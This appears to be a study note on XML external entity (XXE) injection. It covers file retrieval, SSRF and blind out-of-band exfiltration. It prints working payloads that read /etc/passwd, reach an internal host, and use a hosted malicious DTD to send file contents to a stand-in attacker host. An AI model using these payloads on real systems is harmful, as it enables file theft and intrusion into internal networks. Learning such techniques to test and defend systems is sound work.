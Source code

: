 ```yaml
---
title: XXE
category: web
order: 1
---
```


XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.

In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other backend infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks.

## types of xxe attacks
---
* retrive files
* Exploiting XXE to perform SSRF attacks
* Exploiting blind XXE exfiltrate data out-of-band
* Exploiting blind XXE to retrieve data via error messages

## Exploiting XXE to retrieve files
---
modify the xml in 2 ways:
* Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file.
* Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
you can exploit it modifing the xml to:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity **&xxe**; whose value is the contents of the /etc/passwd file and uses the entity within the productId value.

note: With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.

## Exploiting XXE to perform SSRF attacks
---
In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure:
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Blind XXE vulnerabilities
---
### Exploiting blind XXE to exfiltrate data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

http://web-attacker.com/malicious.dtd

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
